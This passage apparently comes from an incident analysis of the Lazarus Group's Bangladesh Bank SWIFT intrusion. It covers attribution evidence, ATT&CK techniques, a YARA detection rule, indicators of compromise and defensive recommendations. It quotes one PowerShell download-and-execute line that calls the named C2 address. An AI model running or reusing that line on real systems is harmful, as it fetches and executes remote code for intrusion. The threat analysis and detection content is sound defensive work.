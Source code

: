- **Code Reuse:** Shared C2 (`185.61.137.36`), RSA flaws, and strings from Sony Pictures (2014) and WannaCry (2017).
- **Infrastructure:** Domains followed Lazarus patterns; IPs traced to North Korea.
- **Techniques:** Custom binaries (UPX), time-delay tactics, and patched `liboradb.dll`.
- **Nation-State Link:** SWIFT Institute cites NSA’s Rick Ledgett: North Korea’s RGB used this to supplement foreign currency, targeting weaker banks like Bangladesh.
- **2025 Update:** Lazarus’s FASTCash ATM attacks show evolved financial focus.

### <a name="mitre-att&ck-techniques"></a>10.2 MITRE ATT&CK Techniques

- **T1059:** PowerShell (`IEX (New-Object Net.WebClient).DownloadString('<http://185.61.137.36>')`).
- **T1134:** Token impersonation.
- **T1027:** XOR-obfuscated payloads.
- **T1071:** HTTPS C2 with self-signed certs.
- **YARA Rule:**
    
    ```
    rule Lazarus_Bangladesh_Malware {
        strings:
            $s1 = "evtdiag.dll" ascii
            $s2 = "SWIFT" ascii
            $s3 = "liboradb.dll" ascii
        condition:
            uint16(0) == 0x5A4D and all of them
    }
    ```
    
## <a name="lessons-learned-and-recommendations"></a>11.0 Lessons Learned and Recommendations

### <a name="identified-vulnerabilities"></a>11.1 Identified Vulnerabilities

- **Email Security:** No DMARC or sandboxing.
- **Segmentation:** Flat network; Windows XP lacked whitelisting.
- **Monitoring:** No real-time anomaly detection.

### <a name="proactive-measures"></a>11.2 Proactive Measures

1. **Zero Trust Architecture:**
    - VLAN segmentation; RBAC on SWIFT endpoints.
    - EDR (e.g., CrowdStrike Falcon) with behavioral detection for DLL injection.
2. **Secure SWIFT Infrastructure:**
    - Mandate 2FA; audit logs with Splunk (`index=swift sourcetype=transaction | stats count by status`).
    - Enforce SWIFT CSP v2025 file integrity monitoring.
3. **Incident Response:**
    - Simulated phishing campaigns.
    - Red team exercises targeting SWIFT.
4. **Advanced Threat Detection:**
    - Monitor IOCs (`evtdiag.dll`, `185.61.137.36`, `2ef2703cfc9f6858ad9527588198b1b6`).
    - Memory analysis with Volatility.
